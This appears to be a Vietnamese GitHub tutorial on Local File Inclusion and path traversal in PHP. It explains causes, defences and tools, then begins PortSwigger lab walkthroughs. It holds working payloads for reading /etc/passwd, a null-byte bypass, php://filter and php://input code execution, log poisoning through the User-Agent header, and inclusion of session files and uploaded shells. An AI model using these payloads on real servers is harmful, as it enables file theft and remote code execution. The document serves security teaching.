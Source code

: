 # LFI vul (Local File Inclusion)

## 1. Khái niệm
- **Local File Inclusion (LFI)** là một lỗ hổng bảo mật web xảy ra khi ứng dụng không kiểm tra hoặc lọc dữ liệu đầu vào một cách chặt chẽ. LFI cho phép kẻ tấn công chỉ định đường dẫn tới các file trên máy chủ, dẫn đến việc tải hoặc thực thi các file đó.

---

## 2. Nguyên Nhân
- Ứng dụng chấp nhận dữ liệu đầu vào từ người dùng mà không kiểm tra đúng cách.
- Sử dụng các hàm như `include()`, `require()`, `include_once()` hoặc `require_once()` mà không lọc đầu vào.
- Thiếu các biện pháp bảo vệ như kiểm tra whitelist hoặc mã hóa đường dẫn.

---

## 3. LFI và Path Traversal
### 3.1. Path Traversal
- **Path Traversal** là một lỗ hổng bảo mật cho phép kẻ tấn công truy cập các file không được phép trên server bằng cách thay đổi đường dẫn file. **Path Traversal** thường chỉ cho phép **đọc file mà không thực thi chúng**.

Ví dụ:
```http
http://example.com/index.php?file=../../etc/passwd
```

### 3.2. Local File Inclusion (LFI)
- **LFI** không chỉ **cho phép truy cập file** mà còn có khả năng **thực thi nội dung file**, đặc biệt khi ứng dụng sử dụng các hàm như `include()`. LFI có thể dẫn đến **Remote Code Execution (RCE)**.

- Ví dụ:
```http
http://example.com/index.php?page=../../var/log/apache2/access.log
```
- Nếu ta chèn mã độc vào log file, mã này có thể được thực thi thông qua LFI.

| Tiêu Chí                  | Path Traversal                  | Local File Inclusion (LFI)       |
|---------------------------|---------------------------------|-----------------------------------|
| Mục tiêu chính            | Đọc file                        | Đọc và có thể thực thi file       |
| Hàm liên quan             | Không yêu cầu `include()`       | Yêu cầu các hàm như `include()`  |
| Mức độ nguy hiểm          | Cao                            | Rất cao                          |
| Ví dụ payload             | `../../etc/passwd`             | `../../var/log/apache2/access.log` |

---

## 4. Cách Khai Thác

### 4.1. Khai Thác Cơ Bản
- Thay đổi giá trị tham số để tải các file nhạy cảm trên máy chủ:
```http
http://example.com/index.php?page=../../etc/passwd
```
- Payload `../../etc/passwd` sử dụng ký tự `../` để truy cập các thư mục cấp cao hơn.

### 4.2. Null Byte Injection
- Trong PHP < 5.3, ký tự null byte (`%00`) có thể bypass kiểm tra đuôi file:
```http
http://example.com/index.php?page=../../etc/passwd%00
```

### 4.3. Sử Dụng PHP Wrappers
- **Đọc file bằng `php://filter`**:
```http
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
- **Thực thi payload qua `php://input`**:
```http
POST /index.php?page=php://input

- Payload:
<?php system('id'); ?>
```

### 4.4. Chèn Mã Vào Log Files
- **Chi Tiết**:
  1. Kẻ tấn công gửi một yêu cầu HTTP chứa mã độc trong header (ví dụ: `User-Agent`).
  2. Mã độc được ghi vào log file của server (thường ở `/var/log/apache2/access.log`).
  3. LFI được sử dụng để đọc và thực thi log file đó.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=../../var/log/apache2/access.log HTTP/1.1
  User-Agent: <?php system('id'); ?>
  ```
- **Giải Thích**: Nếu server log không được bảo vệ, mã độc có thể được thực thi ngay khi `include()` được gọi đến log file.

### 4.5. Khai Thác Session Files
- **Chi Tiết**:
  1. PHP lưu session của người dùng dưới dạng file tại thư mục `/var/lib/php/sessions/` (hoặc tương đương).
  2. Kẻ tấn công tạo session chứa mã độc thông qua ứng dụng web.
  3. Sử dụng LFI để đọc và thực thi file session này.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=/var/lib/php/sessions/sess_<session_id>
  ```
- **Giải Thích**: Nếu nội dung của file session chứa mã PHP, nó sẽ được thực thi khi `include()` gọi đến.

### 4.6. Khai Thác File Upload
- **Chi Tiết**:
  1. Ứng dụng cho phép upload file mà không kiểm tra định dạng hoặc nội dung.
  2. Kẻ tấn công upload một file PHP chứa mã độc (ví dụ: shell).
  3. Sử dụng LFI để bao gồm và thực thi file đã upload.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=uploads/shell.php
  ```
- **Giải Thích**: LFI hoạt động như một cách để thực thi file độc hại đã được tải lên.

---

## 5. Mục Tiêu Phổ Biến
- **Tệp cấu hình**:
  - `/etc/passwd`: Danh sách người dùng hệ thống.
  - `config.php`: File chứa thông tin cấu hình database.
- **Log Files**: `/var/log/apache2/access.log`, `/var/log/nginx/access.log`.
- **Session Files**: `/var/lib/php/sessions/`.

---

## 6. Tác Động
- Đọc các file nhạy cảm như mật khẩu, cấu hình server.
- Thực thi mã độc trên server (Remote Code Execution).
- Lấy thông tin để thực hiện các cuộc tấn công khác, như privilege escalation.

---

## 7. Cách Phòng Chống
- **Kiểm tra và lọc dữ liệu đầu vào**:
  - Chỉ cho phép các file trong danh sách whitelist.
  - Sử dụng hàm `basename()` để lọc đường dẫn.

- **Mã hóa và kiểm tra đầu vào**:
  - Chặn các ký tự đặc biệt như `../`, `%00`.
  - Sử dụng hàm `realpath()` để xác minh đường dẫn.

- **Giới hạn quyền truy cập file**:
  - Chỉ cung cấp quyền truy cập tối thiểu cho các file cần thiết.
  - Tắt hiển thị lỗi (disable error messages).

- **Cấu hình server**:
  - Tắt `allow_url_include` và `allow_url_fopen` trong PHP.
  - Vô hiệu hóa các PHP wrappers không cần thiết.

---

## 8. Công Cụ Hỗ Trợ
- **Burp Suite**: Để intercept và test payloads.
- **FFUF**: Brute force các đường dẫn file nhạy cảm.
- **Dirb**: Tìm kiếm các file ẩn hoặc nhạy cảm trên server.

---

## Demo
- Ở đây mình sẽ làm 1 số chall cơ bản liên quan để **Path Traversal** và **LFI**.
### Portswigger
**[Lab: File path traversal, simple case](https://portswigger.net/web-security/learning-paths/path-traversal/reading-arbitrary-files-via-path-traversal/file-path-traversal/lab-simple)**
![image](https://github.com/user-attachments/assets/3720b002-e979-45c3-9fb5-2e6890d4cce6)
- Sử dụng Burp Suite bắt request tải ảnh về sau đó chỉnh sửa để có được nội dung file `passwd`.

![image](https://github.com/user-attachments/assets/9896f6a8-f561-4089-9d26-8eaad69a99f0)

**[Lab: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-absolute-path-bypass)**
